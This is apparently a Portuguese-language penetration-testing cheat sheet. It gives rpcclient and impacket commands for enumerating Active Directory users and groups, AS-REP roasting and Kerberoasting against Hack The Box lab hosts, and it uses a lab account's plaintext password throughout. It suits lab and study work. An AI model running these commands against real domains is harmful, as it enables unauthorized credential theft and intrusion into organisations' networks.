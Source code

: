 # 5. rpcclient

> rpcclient - tool for executing client side MS-RPC functions (MS-RPC - Microsoft Remote Procedure Call)<br> Microsoft Remote Procedure Call, also known as a function call or a subroutine call, is a protocol that uses the client-server model in order to allow one program to request service from a program on another computer without having to understand the details of that computer's network

```bash´
rpcclient -U '' -N 10.10.10.161      # Modo interativo anonymous sem password
rpcclient -U "SVC_TGS" 10.10.10.100  # Modo interativo - Pede contra-senha
rpcclient $> enumdomusers            # Enumera todos os usuários locais do sistema
# A mesma sequencia de commandos pode-se efetuar com um oneliner:
rpcclient -U "SVC_TGS%GPPstillStandingStrong2k18" 10.10.10.100 -c "enumdomusers"

rpcclient -U "SVC_TGS%GPPstillStandingStrong2k18" 10.10.10.100 -c "enumdomgroups"
rpcclient -U "SVC_TGS%GPPstillStandingStrong2k18" 10.10.10.100 -c "querygroupmem 0x200"
rpcclient -U "SVC_TGS%GPPstillStandingStrong2k18" 10.10.10.100 -c "queryuser 0x1f4"

# OneLiner para descobrir todos os usuários com permições administrador local
echo; rpcclient -U "SVC_TGS%GPPstillStandingStrong2k18" 10.10.10.100 -c "querygroupmem 0x200" | awk '{print $1}' | grep -oP '\[.*?\]' | tr -d '[]' | while read rid; do echo "$rid: $(rpcclient -U "SVC_TGS%GPPstillStandingStrong2k18" 10.10.10.100 -c "queryuser $rid" | grep "User Name" | awk 'NF{print$NF}')"; done

```

# 6. impacket

## 6.1. impacket-GetNPUsers

```bash
impacket-GetNPUsers -dc-ip 10.10.10.161 -request htb.local/
```

## 6.2. impacket-GetADUsers

```bash
impacket-GetADUsers -all active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100
```

## 6.3. impacket-GetUserSPNs

```bash

impacket-GetUserSPNs active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request

# Syncronizar clock com a máquina
rdate -n 10.10.10.100
```

## 6.4. impacket-psexec (pth-winexe em alternativa para hashes)
